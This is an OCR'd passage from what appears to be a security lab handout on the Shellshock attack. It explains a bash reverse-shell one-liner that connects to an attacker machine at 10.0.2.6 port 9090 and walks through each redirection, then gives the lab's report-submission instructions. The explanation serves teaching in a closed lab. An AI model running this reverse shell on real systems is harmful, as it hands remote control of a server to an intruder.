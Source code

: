 server via the Shellshock attack. This bash command will trigger a TCP connection to the attacker machine’s
port 9090, and a reverse shell will be created. We can see the shell prompt from the above result, indicating
that the shell is running on the Server machine; we can type the `ifconfig` command to verify that the IP
address is indeed `10.0.2.5 `, the one belonging to the Server machine. Here is the bash command:
```
Server(10.0.2.5):$ /bin/bash -i > /dev/tcp/10.0.2.6/9090 0<&1 2>&
```
The above command represents the one that would normally be executed on a compromised server. It is
quite complicated, and we give a detailed explanation in the following:

- "`/bin/bash -i`": The optionistands for interactive, meaning that the shell must be interactive
    (must provide a shell prompt).
- " `> /dev/tcp/10.0.2.6/9090` ": This causes the output device ( `stdout `) of the shell to be
    redirected to the TCP connection to `10.0.2.6’s`  port `9090`. In `Unix `systems, `stdout’s`  file
    descriptor is `1`.
- " `0<&1`": File descriptor 0 represents the standard input device (`stdin`). This option tells the system
    to use the standard output device as the stardard input device. Since `stdout` is already redirected to
    the TCP connection, this option basically indicates that the shell program will get its input from the
    same TCP connection.
- " `2>&1 `": File descriptor 2 represents the standard error `stderr`. This causes the error output to be
    redirected tostdout, which is the TCP connection.

In summary, the command "`/bin/bash -i > /dev/tcp/10.0.2.6/9090 0<&1 2>&1`" starts
a `bash `shell on the server machine, with its input coming from a TCP connection, and output going to the
same TCP connection. In our experiment, when the `bash` shell command is executed on `10.0.2.5` , it
connects back to the `netcat` process started on `10.0.2.6.`  This is confirmed via the" `Connection
from 10.0.2.5` ..."message displayed by `netcat`.


## 5 Submission

You need to submit a detailed lab report, with screenshots, to describe what you have done and what you
have observed. You also need to provide explanation to the observations that are interesting or surprising.
Please also list the important code snippets followed by explanation. Simply attaching code without any
explanation will not receive credits.


